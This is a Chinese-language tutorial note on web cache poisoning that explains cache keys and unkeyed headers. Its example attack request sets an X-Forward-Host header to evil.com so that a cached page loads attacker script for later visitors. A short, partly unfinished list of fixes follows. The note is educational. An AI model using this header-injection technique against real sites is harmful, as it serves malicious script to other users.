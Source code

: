 - [Web cache poisoning](#web-cache-poisoning)
  - [原理](#原理)
    - [Web缓存原理](#web缓存原理)
    - [Cache Key](#cache-key)
    - [unkeyed](#unkeyed)
    - [cache poisoning](#cache-poisoning)
  - [修复方案](#修复方案)
  - [参考](#参考)
# Web cache poisoning
## 原理
### Web缓存原理
缓存服务器位于后端服务器和用户之间，它保存（缓存）对特定请求的响应，通常保存一段时间。如果另一个用户随后发送等效请求，则缓存服务器直接将缓存响应的副本直接提供给用户，而无需来自后端的任何交互。通过减少它必须处理的重复请求的数量，这极大地减轻了后端服务器的负载。  
![](pic/2022-09-22-15-28-19.png)  
而一般缓存服务器缓存的内容大多数是一些不需要变化的静态文件，如js文件等等。
如A请求www.test.com/a/a.js后，缓存服务器收到该请求时查看本地是否有该请求的缓存内容，没有的话则转发给后端服务器，然后得到该js文件的响应内容后根据缓存规则对该js的文件的响应内容进行缓存在本地缓存服务器上，当下一次B用户也请求www.test.com/a/a.js时，请求到达缓存服务器，缓存服务器查看本地有该请求的响应内容则缓存服务器直接将上一次缓存的js文件响应返回给B用户而无需再次请求后端服务器。
### Cache Key
而缓存服务器判断前后两个请求是否等效的方式则是通过请求包中的一些参数是否一致，比如请求的url和?后面的参数键值和Host值等等。
如
```http
/?a=1
Host: test.com
UA: chrome
```
```http
/?a=1
Host: test.com
UA: Firefox
```
如果缓存服务器是以查询字符串和Host值进行判断的话，那么这两个请求的响应则是等效的都将由缓存服务器返回相同的内容。
### unkeyed
unkeyed则是请求中不被用来判断是否为等效请求的参数，如上面两个请求的UA头。
### cache poisoning
而cache poisoning产生的原因则就是请求中的unkeyed参数会对响应内容造成变化，导致其缓存的响应内容包含了攻击者可控的内容,导致下一个用户请求时也会得到恶意的缓存内容。
例如后端服务器其实也支持X-Forward-For头，并且X-Forward-For得到的Host优先级要高于Host头。当正常请求
```http
/?a=1
Host: test.com
UA: chrome
```  
响应为
```html
...
<script src=http://test.com/a.js>
...
...
```
其引用的js文件host是从请求的Host中得到，但如果后端其实还支持X-Forward-For头时请求如下请求。
```http
/?a=1
Host: test.com
X-Forward-Host: evil.com
UA: chrome
``` 
则响应为  
```html
...
<script src=http://evil.com/a.js>
...
...
```
可以看到则会引用到恶意服务器上的js文件,而缓存服务器缓存时是根据Host和/?a=1进行缓存的,这就导致该恶意请求的响应缓存时则会将我们插入的`<script src=http://evil.com/a.js>`进行缓存,当下一个用户发送如下请求时
```http
/?a=1
Host: test.com
UA: chrome
```  
得到的响应内容则是我们缓存的恶意内容。
```html
...
<script src=http://evil.com/a.js>
...
...
```
## 修复方案
1. 完全禁用缓存(不现实)
2. 保证缓存的内容为真正的全静态内容，不是动态生成的响应。
3. 
## 参考
https://portswigger.net/web-security/web-cache-poisoning